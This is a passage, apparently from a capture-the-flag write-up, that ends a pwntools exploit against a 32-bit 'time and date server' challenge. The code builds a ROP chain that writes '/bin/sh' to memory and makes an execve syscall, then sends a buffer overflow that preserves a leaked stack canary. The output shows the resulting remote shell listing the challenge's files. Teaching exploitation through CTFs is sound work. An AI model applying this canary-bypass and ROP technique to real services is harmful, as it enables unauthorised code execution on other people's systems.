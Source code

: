 ```py
# load /bin into edx and set eax to the memory we want
rop += p32(0x8066218)
rop += p32(0x08111321 - 0x18ac) # eax
rop += b'/bin' # edx
rop += p32(0x0) #ebx

# set the memory region with the above
rop += p32(0x8067de4)

# load /sh\x00 into edx and set eax to the memory we want
rop += p32(0x8066218)
rop += p32(0x08111321 + 4 - 0x18ac) # eax
rop += b'/sh\x00' # edx
rop += p32(0x0) #ebx

# set the memory region with the above
rop += p32(0x8067de4)

# set eax to 0x21, edx to null, and ebx to the address we stored the string
rop += p32(0x8066218)
rop += p32(0x21) # eax
rop += p32(0x0) # edx
rop += p32(0x08111321) #ebx

# dec eax 22 times
rop += p32(0x8073703) * 22

# system call
rop += p32(0x804ad4f)

# send payload with canary
s.sendline((b'a' * 128) + canary + (b'a' * 12) + rop)

# spawn the shell
s.interactive()
```

And when run we got:

```
[+] Opening connection to 0.cloud.chals.io on port 11317: Done
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
b'Welcome to the time and date server!\nPlease select from the following options.\n\tT = Show current time.\n\tD = Show current date.\n'
[*] Switching to interactive mode
Invalid option: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
$ ls
bin
boot
dev
entrypoint.sh
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
private
```